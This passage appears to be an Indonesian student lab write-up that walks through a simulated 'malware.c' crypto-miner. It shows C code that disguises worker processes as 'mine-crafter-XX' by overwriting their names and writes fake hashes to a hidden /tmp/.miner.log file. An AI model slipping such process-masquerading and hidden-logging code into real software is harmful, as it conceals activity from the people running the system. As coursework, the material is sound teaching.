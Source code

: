 ### g)
mine-crafter-XX akan mengumpulkan hash yang sudah dibuat dan menyimpannya di dalam file /tmp/.miner.log
```C
void mine_worker(int id, int argc, char **argv) {
  prctl(PR_SET_PDEATHSIG, SIGTERM);

  char procname[64];
  snprintf(procname, sizeof(procname), "mine-crafter-%d", id);
  prctl(PR_SET_NAME, procname, 0, 0, 0);

  if (argc > 0) {
      size_t len = 64;
      memset(argv[0], 0, len);
      strncpy(argv[0], procname, len);
  }

  srand(time(NULL) ^ (getpid() + id)); 

  while (1) {
      int delay = (rand() % 28) + 3;
      sleep(delay);

      time_t now = time(NULL);
      struct tm *t = localtime(&now);

      char logline[128];
      snprintf(logline, sizeof(logline), "[%04d-%02d-%02d %02d:%02d:%02d][Miner %02d] %s\n",
               t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
               t->tm_hour, t->tm_min, t->tm_sec,
               id, generate_hash());

//Output dari mine-crafter-XX akan disimpan di file /tmp/.miner.log
      FILE *log = fopen("/tmp/.miner.log", "a");
      if (log) {
          fputs(logline, log);
          fclose(log);
      }
  }
}
```
### h)
Terakhir, tambahkan fitur dimana jika rodok.exe dimatikan, maka seluruh mine-crafter-XX juga akan mati.

#### Struktur akhir dari malware.c
```C
#include <sys/types.h>
#include <sys/stat.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <errno.h>
#include <unistd.h>
#include <syslog.h>
#include <string.h>
#include <sys/prctl.h>
#include <time.h>
#include <dirent.h>
#include <limits.h>
#include <signal.h>

extern char **environ;
```
